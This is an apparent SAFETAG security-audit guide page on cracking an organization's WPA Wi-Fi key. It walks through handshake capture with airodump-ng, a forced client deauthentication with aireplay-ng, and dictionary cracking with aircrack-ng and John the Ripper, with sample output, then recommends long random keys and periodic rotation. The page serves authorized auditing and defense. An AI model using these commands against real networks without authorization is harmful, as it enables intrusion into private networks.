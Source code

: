 ```yaml
---
Approach:
- Technical
Authors:
- SAFETAG
Org_size_under:
- 1000
Remote_options:
- None
Skills_required:
- Wireless, Traffic Analysis, Password auditing
Time_required_minutes:
- 240
---
```


#### WPA Password Cracking

##### Summary

The organization’s wireless Local Area Network (WLAN) protects the network and its users with WPA encryption. This is an important security measure, and a WPA-protected wireless network is much safer than an unencrypted “open” network or a WEP-protected network. (WEP is fundamentally flawed, and extremely simple attacks have been widely known for over a decade.) However, the ease with an attacker could guess the WPA key, or “WiFi password,” is a serious issue, particularly considering its importance as an essential perimeter control. An attacker who gains access to the wireless LAN immediately bypasses many protections that network administrators, and other users of the office network, often take for granted. Put another way, anyone able to guess the WPA key is immediately “inside the firewall.”

Using a laptop and a wireless card with a standard, internal antenna (or using a customized smartphone or other small device), an attacker could easily position themselves close enough to the office to carry out the first phase of this attack, which would only take a few minutes. The second phase, which is supposed to be the difficult part, could take even less time. From the privacy of their own home or office, the attacker could use a minimally customized password dictionary to guess the WPA key .

<!--For reporting, needs time-to-break WPA password -->

##### Overview

##### Materials Needed

* For the (most common) WPA password-based attacks, an already-prepared dictionary of words to use to attack the password will be required. See the Appendix on Audit Preparation for guidance on dictionary preparation.

##### Considerations

##### Walkthrough


An attacker can crack the office’s WPA key in approximately with a short and minimally customized password dictionary based on open information about the organization and basic word collections.

**Step 1:** The attacker customizes their WiFi password dictionary, adding phrases related to the subject: organization name, street address, phone number, email domain, wireless network name, etc. Common password fragments are included, as well: qwerty, 12345, asdf and all four-digit dates back to the year 2001, for example, among others. The attacker may then add hundreds or thousands of words (in English and/or other relevant languages).

See the Password Strength exercise for details on password dictionary buidling and usage.

**Step 2:** The attacker would then begin recording all (encrypted) wireless traffic associated with the organization’s access point:

```
$ sudo airodump-ng -c 1 --bssid 1A:2B:3C:4D:5E:6F -w sampleorg_airodump mon0

 CH  1 ][ Elapsed: 12 mins ][ 2012-01-23 12:34 ][ fixed channel mon0: -1
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 1A:2B:3C:4D:5E:6F  -70 100    12345    43210    6   1  12e. WPA2 CCMP   PSK sampleorg
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes
 1A:2B:3C:4D:5E:6F  01:23:45:67:89:01    0    0e- 0e   186    12345
 1A:2B:3C:4D:5E:6F  AB:CD:EF:AB:CD:EF    0    1e- 1      0     1234
 1A:2B:3C:4D:5E:6F  AA:BB:CC:DD:EE:FF  -76    0e- 1      0     1122
 1A:2B:3C:4D:5E:6F  A1:B2:C3:D4:E5:F6  -80    0e- 1      0     4321
```

wifite is also useful for this step, and claims to automatically de-auth (step 3).

**Step 3:** Next, the auditor forces a wireless client, possibly chosen at random, to disconnect and reconnect (an operation that is nearly always invisible to the user).

In the example below, AB:CD:EF:AB:CD:EF is the MAC address of a laptop that was briefly disconnected in this way.

```
$ aireplay-ng -0 1 -a 1A:2B:3C:4D:5E:6F -c AB:CD:EF:AB:CD:EF mon0

 15:54:48  Waiting for beacon frame (BSSID: 1A:2B:3C:4D:5E:6F) on channel -1
 15:54:49  Sending 64 directed DeAuth. STMAC: [AB:CD:EF:AB:CD:EF] [ 5| 3 ACKs]
```

The goal of this step is to capture the cryptographic handshake that occurs when the targeted client reconnects. Try using different clients if the first one doesn't work, or try (physically) moving around.

This handshake does not contain the WPA key itself, but once the the complete handshake process has been seen, the auditor (or a potential attacker) can leave the vicinity and run various password cracking tools to try and discover the password. While a complete password cracking tutorial is out of scope for SAFETAG documentation, below are three strategies:

**Step 4:** The auditor attempts to discover the WPA password.

A good wordlist with a few tweaks tends to break an unforunate number of passwords.  Using a collection of all english words, all words from the language of the organization being audited, plus a combination of all these words, plus relevant keywords, addresses, and years tends to crack most wifi passwords.

```bash
    $ aircrack-ng -w pwdpairs.txt -b 1A:2B:3C:4D:5E:6F sampleorg_airodump*.cap
```

For WPA captures, John can either feed in to an aircrack process or attack a capture directly.  For captures, you first have to convert the .cap file (from wireshark, wifite, airodump, etc.) to a format that John likes.  The Jumbo version we use has conversion tools for this available:

```bash
  $wpapcap2john wpa.cap > crackme
  $./john -w:password.lst -fo=wpapsk-cuda crackme
```

##### Results
Successful password cracking via piping these into aircrack-ng:

```
 Opening sampleorg_airodump-01.cap
 Reading packets, please wait...
                                 Aircrack-ng 1.1
                    [00:00:05] 9123 keys tested (1876.54 k/s)
                           KEY FOUND! [ sample2012 ]

      Master Key     : 2A 7C B1 92 C4 61 A9 F6 7F 98 6B C1 AB 53 7A 0F
                       3C AF D7 9A 0C BD F0 4B A2 44 EE 5B 13 94 12 12

      Transient Key  : A9 C8 AD 47 F9 71 2A C6 55 F8 F0 73 FB 9A E6 1D
                       23 D9 31 25 5D B1 CF EA 99 2C B3 D7 E5 7F 91 2D
                       56 25 D5 9A 1F AD C5 02 E3 2C C9 ED 74 55 BA 94
                       D6 F5 0A D1 3B FB 39 40 19 C9 BA 65 2E 49 3D 14

      EAPOL HMAC     : F1 DF 09 C4 5A 96 0B AD 83 DD F9 07 4E FA 19 74
```

The fourth line of the above output provides some useful information about the effectiveness of a strong WPA key. That rate of approximately 2000 keys per second means that a full-on, brute-force attack against a similar-length key that was truly random (and therefore immune to dictionary-based attacks) would take about 70^9 or 20 trillion seconds, which is well over 600,000 years. Or, for those who favor length and simplicity over brevity and complexity, a key containing four words chosen from among the 10,000 most common English dictionary words would still take approximately 150,000 years to crack (using this method on an average laptop).

It is worth noting that an attacker with the resources and the expertise could increase this rate by a factor of a hundred. Using a computer with powerful graphical processing units (GPUs) or a cloud computing service like Amazon’s EC2, it is possible to test 250,000 or more keys per second. A setup like this would still take several lifetimes to guess a strong password, however.

Regardless, the success of this attack against a wireless network would allow an attacker to bypass all perimeter controls, including the network firewall. Without access to the office LAN, a non-ISP, non-government attacker would have to position himself on the same network as an external staff member in order to exploit any flaws in the organization’s email or file-sharing services. With access to the local network, however, that attacker could begin carrying out Local attacks quite quickly, and from a distance.

With regard to the distance from which an attacker could maintain such access, the office WiFi network appears to have a relatively strong signal, which extends to the street out front:

{photograph of location}

Figure 1: WiFi signal strength from a nearby location

{screenshot of WiFi strength}


##### Material that may be Useful:

  * *Tutorial:* [“How to Crack WPA/WPA2”](http://www.aircrack-ng.org/doku.php?id=cracking_wpa) (Aircrack-ng Wiki)
[“Aircrack-ng”](http://www.aircrack-ng.org/doku.php?id=aircrack-ng) (Aircrack-ng Wiki)
  * *Documentation:* [“Aireplay-ng”](http://www.aircrack-ng.org/doku.php?id=aireplay-ng) (Aircrack-ng Wiki)
  * *Documentation:* [“Airodump-ng”](http://www.aircrack-ng.org/doku.php?id=airodump-ng) (Aircrack-ng Wiki)

##### Recommendation

The WPA key should be long enough and complex enough to prevent both standard dictionary attacks and “brute-force attacks” in which clusters of powerful computers work in parallel to test every possible character combination. (We recommend 12 or more completely random characters or a passphrase that contains four or five—or more—relatively uncommon words.) The key should not contain common “phrases,” including number sequences, especially if they are related to the organization, its employees or its work. Choosing a strong WPA key is one of the most important steps toward defending an organization’s network perimeter from an adversary with the ability to spend some time in the vicinity of the offices. By extension, mitigating sthis vulnerability is critical to the protection of employees and partners (and confidential data) from the sort of persistent exposure that eventually brings down even the most well-secured information systems.

Because shared keys inevitably end up being written on whiteboards, given to office visitors and emailed to partners, the WPA key should also be changed periodically. This does not have to happen frequently, but anything less than three or four times per year may be unsafe.
Assets affected by this issue
